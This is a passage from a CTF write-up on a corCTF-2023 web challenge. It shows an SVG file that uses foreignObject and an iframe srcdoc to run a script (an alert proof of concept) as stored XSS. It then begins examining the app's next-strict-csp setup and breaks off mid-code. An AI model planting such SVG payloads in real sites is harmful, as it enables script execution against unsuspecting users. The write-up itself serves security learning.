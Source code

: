 > The **`<foreignObject>`** [SVG](https://developer.mozilla.org/en-US/docs/Web/SVG) element includes elements from a different XML namespace. In the context of a browser, it is most likely (X)HTML. (From [https://developer.mozilla.org/en-US/docs/Web/SVG/Element/foreignObject](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/foreignObject))

**In the [MDN Web Docs's example](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/foreignObject#example), we can see that `<foreignObject>` element can include other HTML elements!**
```html
<svg viewBox="0 0 200 200" xmlns="http://www.w3.org/2000/svg">
  <foreignObject x="20" y="20" width="160" height="160">
    <div xmlns="http://www.w3.org/1999/xhtml">
      Lorem ipsum dolor sit amet, consectetur adipiscing elit. Sed mollis mollis
      mi ut ultricies. Nullam magna ipsum, porta vel dui convallis, rutrum
      imperdiet eros. Aliquam erat volutpat.
    </div>
  </foreignObject>
</svg>
```

**Hmm... We can try to use `<foreignObject>` element to inject our evil `<script>` tag!**

**After fumbling around, I found [this writeup](https://insert-script.blogspot.com/2020/09/xss-challenge-solution-svg-use.html), which uses `<iframe>` tag inside the `<foreignObject>` element to achieve stored XSS via SVG:**
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>

  <foreignObject>
    <iframe srcdoc="&lt;script&gt;alert(document.domain)&lt;/script&gt;"></iframe>
  </foreignObject>
</svg>
```

**Then update the shared frog's SVG URL again:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731155248.png)

> Note: By default, external-svg-loader will cache the fetched files for 30 days. To refresh the cache, we can provide any GET parameter.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731160052.png)

Ah crab! I forgot there's a **CSP (Content Security Policy)** in this web application!!

> Note: CSP is making XSS attacks **harder**, but it's not fixing the underlying XSS vulnerability itself.

So, we need to **bypass the CSP** in order to execute our evil JavaScript...

**In `pages/_document.js`, we can see that the web application is using [next-strict-csp](https://www.npmjs.com/package/next-strict-csp) library to implement the CSP:** 
```js
import Document, { Html, Head, Main, NextScript } from "next/document";
import { NextStrictCSP } from "next-strict-csp";

const HeadCSP = process.env.NODE_ENV === "production" ? NextStrictCSP : Head;

class CustomDocument extends Document {
    render() {

        return (
            <Html>
                <HeadCSP>
                    {process.env.NODE_ENV === "production" && (
```